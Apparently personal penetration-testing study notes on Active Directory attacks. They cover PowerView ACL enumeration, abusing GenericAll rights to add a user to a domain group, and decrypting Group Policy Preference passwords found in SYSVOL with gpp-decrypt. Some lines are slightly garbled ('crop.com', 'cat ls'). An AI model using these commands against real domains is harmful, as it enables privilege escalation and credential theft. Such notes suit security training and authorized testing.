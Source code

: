 ## Object Permissions
AD permission types
```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

user ACL
```
Get-ObjectAcl -Identity USERNAME
```

group ACL
```
Get-ObjectACL -Identity "GROUPNAME"
```

convert sid to name
```
Convert-SidToName SID
```

List GenericAll ACLs and resolve SIDs
```
$sids = Get-ObjectAcl -Identity "GROUPNAME" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | Select-Object -ExpandProperty SecurityIdentifier

$sids | ForEach-Object{
	[PSCustomObject]@{
		SID = $_
		NAME = Convert-SidToName $_
	}
}
```

if the current user has GenericAll ACLs on specific group, they can add to that group
```
net group "GROUPNAME" USERNAME /add /domain
```


## Domain Shares
find domain share by powerview
```
Find-DomainShare
```

listing contents of the SYSVOL share
```
ls \\dc1.crop.com\sysvol\corp.com

default SYSVOL folder is mapped to %SystemRoot%\SYSVOL\Sysvol\domain-name
```


checking old policy backup file
```
ls \\dc1.crop.com\sysvol\corp.com\Policies
cat ls \\dc1.crop.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```

gpp-decrypt to decrypt the password
```
gpp-decrypt "CPASSWORD"
```

